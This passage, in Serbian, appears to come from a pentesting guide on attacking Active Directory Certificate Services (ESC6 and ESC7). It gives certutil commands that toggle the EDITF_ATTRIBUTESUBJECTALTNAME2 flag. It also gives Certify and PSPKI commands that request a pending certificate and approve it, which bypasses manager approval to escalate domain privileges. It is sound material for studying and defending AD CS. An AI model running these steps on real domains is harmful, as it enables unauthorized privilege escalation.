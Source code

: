 Da biste promenili ove postavke, pretpostavljajući da posedujete **administrativna prava domena** ili ekvivalentna prava, sledeću komandu možete izvršiti sa bilo koje radne stanice:

```bash
certutil -config "CA_HOST\CA_NAME" -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
```

Da biste onemogućili ovu konfiguraciju u svom okruženju, zastavica se može ukloniti pomoću:

```bash
certutil -config "CA_HOST\CA_NAME" -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2
```

{% hint style="warning" %}
Nakon ažuriranja sigurnosti u maju 2022. godine, novo izdati **sertifikati** će sadržati **sigurnosno proširenje** koje uključuje **`objectSid` svojstvo zahtevaoca**. Za ESC1, ovaj SID se dobija iz određenog SAN-a. Međutim, za **ESC6**, SID odražava **`objectSid` zahtevaoca**, a ne SAN.\
Da bi se iskoristio ESC6, sistem mora biti podložan ESC10 (Slabe mapiranje sertifikata), koji prioritet daje **SAN-u nad novim sigurnosnim proširenjem**.
{% endhint %}

## Vulnerable Certificate Authority Access Control - ESC7

### Napad 1

#### Objašnjenje

Pristup kontroli za sertifikaciono telo se održava putem skupa dozvola koje regulišu rad CA. Ove dozvole se mogu videti pristupom `certsrv.msc`, desnim klikom na CA, izborom opcije Properties, a zatim navigiranjem do kartice Security. Dodatno, dozvole se mogu nabrojati korišćenjem PSPKI modula sa komandama kao što su:

```bash
Get-CertificationAuthority -ComputerName dc.domain.local | Get-CertificationAuthorityAcl | select -expand Access
```

Ovo pruža uvid u osnovna prava, odnosno **`ManageCA`** i **`ManageCertificates`**, koja se odnose na uloge "administratora CA" i "upravitelja certifikatima" redom.

#### Zloupotreba

Imajući prava **`ManageCA`** na autoritetu za izdavanje certifikata, subjekt može daljinski manipulisati postavkama koristeći PSPKI. To uključuje prebacivanje zastavice **`EDITF_ATTRIBUTESUBJECTALTNAME2`** kako bi se omogućila specifikacija SAN-a u bilo kojem obrascu, što je ključni aspekt eskalacije domena.

Ovaj proces se može pojednostaviti korišćenjem cmdleta **Enable-PolicyModuleFlag** iz PSPKI-a, što omogućava modifikacije bez direktnog GUI interakcije.

Posedovanje prava **`ManageCertificates`** omogućava odobravanje zahteva koji su u toku, efektivno zaobilazeći zaštitu "odobrenje upravitelja CA certifikata".

Kombinacija modula **Certify** i **PSPKI** može se koristiti za zahtevanje, odobravanje i preuzimanje certifikata:

```powershell
# Request a certificate that will require an approval
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:ApprovalNeeded
[...]
[*] CA Response      : The certificate is still pending.
[*] Request ID       : 336
[...]

# Use PSPKI module to approve the request
Import-Module PSPKI
Get-CertificationAuthority -ComputerName dc.domain.local | Get-PendingRequest -RequestID 336 | Approve-CertificateRequest

# Download the certificate
```